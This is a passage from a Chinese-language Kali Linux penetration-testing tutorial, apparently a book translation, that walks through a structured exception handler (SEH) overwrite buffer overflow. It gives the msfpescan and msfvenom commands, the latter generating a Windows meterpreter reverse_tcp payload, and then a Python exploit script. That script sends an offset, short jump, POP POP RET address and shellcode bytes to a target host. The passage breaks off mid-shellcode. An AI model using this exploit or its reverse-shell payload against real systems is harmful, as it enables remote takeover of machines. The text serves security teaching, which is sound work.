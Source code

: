 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/9923fd87-3710-4aa9-ac11-2a4873962b40.png)

这是因为 SEH 是一个指针，指向发生异常时代码存储的内存地址。

1.  让我们将异常传递给程序，我们会看到 EIP 已经被覆盖，但当我们查看内存时，我们会看到我们的 Cs 在内存中的 Bs 之后大约写入了 6 个字节。我们可以使用`POP RET`后跟一个短的`JUMP`代码来跳转到我们的 shellcode。

1.  我们在调试器的控制台中输入`!safeseh`命令：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/e5fe1f24-019f-47fb-b5ac-841de81bcc5e.png)

1.  这将显示所有未使用`SAFESEH/ON`编译的 DLL 的列表。在日志窗口中，我们将看到函数的列表：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/6732dd8a-5f97-4211-97bb-3ba05ebc9e64.png)

1.  让我们使用一个名为`vbajet32.dll`的 DLL。我们的目标是在 DLL 中找到一个`POP POP RET`序列，我们可以用它来绕过 SEH。

1.  我们在 Windows 机器上找到我们的 DLL 并将其复制到 Kali。Kali 还有另一个很棒的工具，称为`msfpescan`，可以用来在 DLL 中查找`POP POP RET`序列：

```
 /path/to/msfpescan -f vbajet32.dll -s
```

以下屏幕截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/227092fd-5f40-4a32-b23e-d3b72b31bfb9.png)

1.  在这里，我们有所有`.dll`中`POP POP RET`序列的地址。我们将使用第一个`0x0f9a1f0b`。我们还需要一个短的`JUMP`代码，它将导致跳转到我们的 shellcode 或存储在内存中的 Cs。

1.  短`JUMP`是`\xeb\x06`，其中`06`是我们需要跳转的字节数。我们仍然缺少 4 字节地址空间的 2 个字节，我们可以使用 2 个 NOPs。

1.  让我们创建一个 shellcode；因为我们将通过 HTTP 发送这个 shellcode，所以我们需要确保避免坏字符。我们将使用 msfvenom：

```
 msfvenom -p windows/meterpreter/reverse_tcp -f py
        -b "\x00\xff\x20\x25\x0a\x-d" -v buffer
```

以下屏幕截图显示了前面命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/4a72551c-1e19-414f-a9f1-33d95e744367.png)

1.  我们将把所有东西放在利用中，如下所示：

```
        #!/usr/bin/python
        import socket
        target_address="192.168.110.12"
        target_port=6660
        buffer = "USV "
        buffer += "\x41" * 962 #offset
        # 6 Bytes SHORT jump to shellcode
        buffer += "\xeb\x06\x90\x90"
        # POP+POP+RET 0x0f9a196a
        buffer += "\x6a\x19\x9a\x0f"
        buffer += "\x90" * 16
        #Shellcode Reverse meterpreter.
        buffer += "\xdb\xde\xd9\x74\x24\xf4\xbf\xcf\x9f\xb1\x9a\x5e"
        buffer += "\x31\xc9\xb1\x54\x83\xee\xfc\x31\x7e\x14\x03\x7e"
        buffer += "\xdb\x7d\x44\x66\x0b\x03\xa7\x97\xcb\x64\x21\x72"
        buffer += "\xfa\xa4\x55\xf6\xac\x14\x1d\x5a\x40\xde\x73\x4f"
        buffer += "\xd3\x92\x5b\x60\x54\x18\xba\x4f\x65\x31\xfe\xce"
        buffer += "\xe5\x48\xd3\x30\xd4\x82\x26\x30\x11\xfe\xcb\x60"
        buffer += "\xca\x74\x79\x95\x7f\xc0\x42\x1e\x33\xc4\xc2\xc3"
        buffer += "\x83\xe7\xe3\x55\x98\xb1\x23\x57\x4d\xca\x6d\x4f"
        buffer += "\x92\xf7\x24\xe4\x60\x83\xb6\x2c\xb9\x6c\x14\x11"
        buffer += "\x76\x9f\x64\x55\xb0\x40\x13\xaf\xc3\xfd\x24\x74"
        buffer += "\xbe\xd9\xa1\x6f\x18\xa9\x12\x54\x99\x7e\xc4\x1f"
```